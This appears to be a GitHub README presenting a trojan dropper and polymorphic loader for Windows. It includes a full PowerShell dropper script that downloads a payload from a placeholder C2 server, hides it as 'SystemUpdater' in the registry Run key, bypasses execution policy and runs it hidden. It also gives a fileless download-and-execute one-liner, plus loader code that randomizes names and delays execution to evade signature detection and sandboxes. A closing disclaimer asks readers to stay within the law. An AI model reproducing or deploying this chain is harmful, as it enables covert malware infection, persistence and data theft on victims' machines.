 # Trojan-Dropper-Polymorphic-Loader

## OVERVIEW
This project demonstrates a trojan dropper coupled with an advanced polymorphic loader designed to execute obfuscated payloads while evading detection. Threat actors utilizing techniques such as persistence and adaptability can deploy covert malware including ransomware, keyloggers, remote access trojans (RATS), credential stealers, and process injectors without easily being detected by traditional security solutions.

## Initial Infection Vector
The trojan dropper is a PowerShell script responsible for downloading the obfuscated payload from a remote C2 server. It ensures persistence by modifying Windows registry startup keys and executing the payload without displaying a console window.
```
Start-Process -WindowStyle Hidden -FilePath $filePath
```
## Techniques that threat actors use:
Fileless execution
```
powershell -ExecutionPolicy Bypass -NoProfile -NonInteractive -Command "IEX (New-Object Net.WebClient).DownloadString('YOUR_C2_Server_or_Hosting_Server/Your_Payload_File')"
```
Windows Registry Persistence
```
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemUpdater" -Value "$filePath"
```
This ensures the paylaod is automatically executed everytime the user logs in.

Invoke-WebRequest to download the payload over http-https making it appear as a legitimate network request.
```
Invoke-WebRequest -Uri $payloadURL -OutFile $filePath
```
## Polymorphic_Loader
This is an obfuscated python executable that executes an encrypted and self morphing payload.  It uses base64 encoding + encryption to hide the paylaod, mutatues itself upon execution to evade signature based detection, self replicates and deletes old versions to prevent forensic recovery. Everytime it executes it randomizes function and variable names also renaming functions before execution to make signature based detection useless.
```
func_name = ''.join(random.choices(string.ascii_letters, k=10))
var1 = ''.join(random.choices(string.ascii_letters, k=8))
globals()[func_name] = decrypt_and_execute
globals()[func_name]()
```
The payload sleeps for a random interval 1-5 minutes before executing ensuring short lived analysis sandboxes timeout before execution.
```
sleep_time = random.randint(60, 300)
```
# trojan_dropper.ps1
```
$filePath = "$env:PUBLIC\update.exe" 
$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$regName = "SystemUpdater"
$payloadURL = "YOUR_C2_OR_HOSTING_SERVER/polymorphic_loader.exe"

# Download the obfuscated payload
Invoke-WebRequest -Uri $payloadURL -OutFile $filePath

# Add persistence to registry
Set-ItemProperty -Path $regPath -Name $regName -Value $filePath

# Set execution policy to bypass for the current process
Set-ExecutionPolicy Bypass -Scope Process -Force

# Execute the update.exe script
Start-Process -WindowStyle Hidden -FilePath "cmd.exe" -ArgumentList "/c `"$filePath`""
```
# polymorphic_loader.exe
this is a snippet of the obfuscated payload having used pyarmor 
```
from pyarmor_runtime_000000 import __pyarmor__
__pyarmor__(__name__, __file__, b'PY000000\x00\x03\x0c\x00\xcb\r\r\n\x80\x00\x01\x00\x08\x00\x00\x00\x04\x00\x00\x00@\x00\x00\x00\xd2\x19\x00\x00\x12\t\x04\x00\x91\x82\xf0\x92fp\xdf\xfdc\xc3W^\x80"\xf9)\x00\x00\x00\x00\x00\x00\x00\x00\xeb\x04J,\xfe\xbe\xb9\xe2\xcaH\xf5\xccy\x95\xaai\x11\x19W\x9d\xdb\xd8\x99>`\x82\x8em\x1a\x9f_\xe1(\x80\xcdD\x98\xef4[-|\x9c%\x9d~\xc0l\xd5!t\xab\xce\xf42\xc67%\xec\xbe\xe3\x8c\x12A92\x08\x03\xda\xd6\xf9r\'L\x96\x17*\xa1\x1f\xa3j\xe1\x06\xca\xdf\xca1\xe6p\x16\xa4\rr~\xed\xe7\x18\x04A\x04\x08\x91vl\xdd\x9615\xb6\xad\x89k
```
**there are many other steps that need to be taken to compile a complete working obfuscated executable payload such as installing all the necessary dependencies, including them with the correct flags --hidden-import and --add-data**
## I am not responsible for your actions or intentions with the given data here! Stay within bounds of the law and only test where permission is given.

